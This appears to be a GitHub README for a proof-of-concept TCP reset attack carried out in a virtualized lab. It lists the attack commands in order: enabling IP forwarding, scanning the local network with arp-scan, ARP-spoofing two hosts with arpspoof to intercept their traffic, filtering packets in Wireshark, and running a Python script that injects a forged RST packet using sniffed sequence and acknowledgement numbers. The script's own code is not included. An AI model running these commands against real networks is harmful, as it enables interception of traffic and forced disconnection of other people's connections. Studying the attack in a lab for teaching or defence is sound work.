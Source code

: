 # TCP-reset-attack-PoC
A PoC that proves the TCP reset attack.
All the logical addresses, port, Sequence number and Acknowledgement number values in the following
commands are just examples. To be noticed that all the machines are each on a virtualized environment.
Steps:
1) Enable the IP forwarding on the attacker system:
echo 1 > /proc/sys/net/ipv4/ip_forward

2) We use the arp-scan command to find the IP addresses of the machines connected to the local network:
arp-scan -interface=eth0 –localnet

3) We used arpspoofing to intercept the traffic between the host A and host B using the IP addresses found in the last
step. Notice that the two hosts have the 192.168.0.40, respectively 192.168.0.39 IP addresses.
arpspoof -i eth0 -t 192.168.0.39 192.168.0.40
arpspoof -i eth0 -t 192.168.0.40 192.168.0.39

4) Next we filter the traffic to see only the packets we are interested on using Wireshark:
(ip.src==192.168.0.40&ip.dst==192.168.0.39)||(ip.src==192.168.0.39&ip.dst==192.168.0.40)

5) This way we find the application ports of both hosts, and also from the last packets we are able to get the right
Acknowledgement number and Sequence number to attack host A. Next we send a forged TCP packet with RST bit
set and the correct Sequence number and Acknowledgement number to the host A and therefore host A closes the
connection.
python script.py -S 192.168.0.40 -s 23 -D 192.168.0.39 -d 50638 -a 2620146587 -q 1393205321
